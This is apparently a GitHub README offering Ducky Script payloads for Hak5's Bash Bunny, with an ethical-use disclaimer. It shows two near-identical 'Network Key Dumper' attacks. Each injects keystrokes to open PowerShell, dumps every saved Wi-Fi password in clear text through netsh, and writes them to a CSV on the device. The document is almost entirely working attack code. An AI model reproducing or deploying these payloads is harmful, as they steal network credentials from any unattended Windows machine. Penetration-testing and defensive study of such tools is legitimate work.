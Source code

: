 # Steven's Custom Ducky Script Repository

This repository contains **custom Ducky Scripts** designed for use with **Hak5's Bash Bunny**. These scripts are intended for **educational purposes, ethical hacking, penetration testing, and cybersecurity research**.



## ⚠ Disclaimer

**Legal & Ethical Use Notice**  
These scripts are provided **strictly for educational and research purposes only**. Unauthorized use of these scripts to access systems without permission is **illegal and punishable by law**. By using this repository, you **agree** to only use these scripts in **controlled environments** (e.g., on your own devices or with explicit permission). I, the author, **do not take responsibility** for any misuse of these scripts. Thank you!

## Bash Bunny Network Key Dumper to CSV (Windows) 
**Payload.txt handles overall attack logic, device modes, and script execution.**
```ducky
# set up payload
LED SETUP
GET SWITCH_POSITION
ATTACKMODE HID STORAGE

# run duckyscript file 'ducky-script.txt'
LED STAGE1
QUACK ${SWITCH_POSITION}/ducky-script.txt

# end payload
LED FINISH
```

**Ducky-script.txt contains keystroke injection commands (Ducky Script syntax).**
```ducky
GUI r
DELAY 500
STRING powershell -NoProfile 
ENTER
DELAY 500

STRING $u=gwmi Win32_Volume|?{$_.Label -eq'BashBunny'}|select name;cd $u.name
ENTER
DELAY 500
STRING cd loot
ENTER
DELAY 500

STRING (netsh wlan show profiles) | Select-String ":(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Export-Csv -NoTypeInformation -Path ".\$env:UserName`_WiFiPasswords.csv"; exit
ENTER

```

## Bash Bunny Network Key Dumper (Windows) 
Payload.txt handles overall attack logic, device modes, and script execution.
```ducky
# set up payload
LED SETUP
GET SWITCH_POSITION
ATTACKMODE HID STORAGE

# run duckyscript file 'ducky-script.txt'
LED STAGE1
QUACK ${SWITCH_POSITION}/ducky-script.txt

# end payload
LED FINISH
```

Ducky-script.txt contains keystroke injection commands (Ducky Script syntax).
```ducky
GUI r
DELAY 500
STRING powershell -NoProfile 
ENTER
DELAY 500

STRING $u=gwmi Win32_Volume|?{$_.Label -eq'BashBunny'}|select name;cd $u.name
ENTER
DELAY 500
STRING cd loot
ENTER
DELAY 500

STRING (netsh wlan show profiles) | Select-String ":(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Export-Csv -NoTypeInformation -Path ".\$env:UserName`_WiFiPasswords.csv"; exit
ENTER
```




## 🔗 References

- [Hak5 Official Website](https://hak5.org/)
- [Bash Bunny Documentation](https://docs.hak5.org/bash-bunny/)


